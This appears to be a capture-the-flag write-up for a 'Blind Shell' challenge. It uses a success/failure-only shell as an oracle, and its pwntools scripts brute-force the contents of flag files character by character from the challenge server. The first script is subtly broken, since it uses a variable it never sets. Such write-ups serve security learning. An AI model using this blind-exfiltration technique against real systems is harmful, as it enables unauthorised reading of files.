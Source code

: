 # Blind Shell

- Category: misc
- Points: 345
- Solved by: 4cul, 01baf, crypt3d4ta

## Problem

It's simple enough, either you've succeeded or you've failed.
Connect here: nc tasks.kksctf.ru 30010

## Writeup

In this challenge we are dealing with a particular shell.
When we execute a command we have a fixed output which consists of
"Success!" in case the execution is successful and "Failed!"
on the other hand.

For example:

```
$cat
Success!
$c
Failed!
```

The idea is to find files in the current directory, using the terminal output to our advantage.
With the aid of ls, wc, and grep, it’s possible to see inside the current directory the number of files, and also their names

To see how much files are in the current directory we’ve run this piece of commands:

```
$ ls | wc -l | grep 1
Failed!
$ ls | wc -l | grep 2
Failed!
$ ls | wc -l | grep 3
Success!
```

And to see the name of each file:<br>
First we’ve looked with what letter each filename begins:

```
$ ls | grep ^f | wc -l | grep 1
Success!
$ ls | grep ^v | wc -l | grep 1
Failed!
$ ls | grep ^m | wc -l | grep 1
Success!
$ ls | grep ^s | wc -l | grep 1
Success!
```

So there are 3 items into the directory, respectively beginning with ’f’, ‘m’ and ‘s’.<br>
Second, using this information, we’ve run the following commands, in order to know their full names: 

```
$ ls | grep ^f | wc -l | grep 1
Success!
$ ls | grep ^fl | wc -l | grep 1
Success!
$ ls | grep ^fla | wc -l | grep 1
Success!
$ ls | grep ^flag\.t | wc -l | grep 1
Success!
$ ls | grep ^flag\.txt | wc -l | grep 1
Success!
```

The obtained files were:<br>
    - flag.txt: 	text file<br>
    - server.py: 	python script<br>
    - maybehere: 	directory

The same procedure is used to read from flag.txt:

```
from pwn import *

alphabet = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:;<=>?@[]^'

conn = remote('tasks.kksctf.ru', 30010)
conn.sendline("cat flag.txt | grep ^L")
conn.recvline()

read = 'L'

while True:
    for i in alphabet:
        test = read + i
        print(test)
        conn.sendline("cat flag.txt | grep " + test)
        if chr(r[2]) == 'S':
            read = test
            break


print("Here's your content: ", read)
```
After launching the script we obtain:

```
Look_around,maybe_here
```

The suspect was that inside maybehere directory there was something interesting; 
so we’ve tried to change the current directory into ./maybehere, but we’ve noticed 
that ‘cd’ command actually doesn’t change directory - in fact, we’ve tried to type ‘cd /’, 
but the current working directory remains the same, even if it returns “Success!”.
Again, thanks to the superpowers of ls, cat and grep, we’ve looked that into 
/maybehere there was the file flag.txt; so we’ve run the same script in order to get its content,
and we’ve finally discovered the flag

Script:


```
from pwn import *

alphabet = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:;<=>?@[]^'

conn = remote('tasks.kksctf.ru', 30010)
conn.sendline("cat maybehere/flag.txt | grep kks{")
conn.recvline()

flag = 'kks{'

while True:
    for i in alphabet:
        test = flag + i
        print(test)
        conn.sendline("cat maybehere/flag.txt | grep " + test)
        r = conn.recvline()
        print(r)
        if chr(r[2]) == 'S':
            flag = test
            break

    if flag[-1] == '}':
        break

print("Here's your flag: ", flag)
```

### Flag
```kks{Bl1nD_sH311_s2cKs_b4t_Y0U_ar3_amaz19g}```
